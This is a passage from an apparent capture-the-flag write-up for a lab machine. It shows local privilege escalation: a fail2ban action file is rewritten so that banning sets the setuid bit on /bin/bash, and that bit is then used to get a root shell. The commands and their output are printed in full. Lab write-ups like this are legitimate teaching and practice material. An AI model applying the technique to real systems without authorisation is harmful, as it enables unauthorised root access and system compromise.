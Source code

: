 ```
michael@trick:/dev/shm$ ps aux |grep fail2ban
root        729  0.0  1.0 248664 20580 ?        Ssl  12:10   0:01 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

One quick overwrite of `/etc/fail2ban/action.d/iptables-multiport.conf` to ironically change `actionban` from blocking our IP to making `/bin/bash` a `setuid` variable with `chmod +s /bin/bash`, a restart of `fail2ban`, and after a few failed SSH attempts with a junk password:

```
michael@trick:/etc/fail2ban/action.d$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash

michael@trick:/etc/fail2ban/action.d$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash

michael@trick:/etc/fail2ban/action.d$ /bin/bash -p
bash-5.0# whoami
root
```

Note: Updating `/bin/bash` to have the `setuid` bit is just one of many possible solutions here. A reverse shell, other permission changes, etc... are all equally valid solutions.

GG!

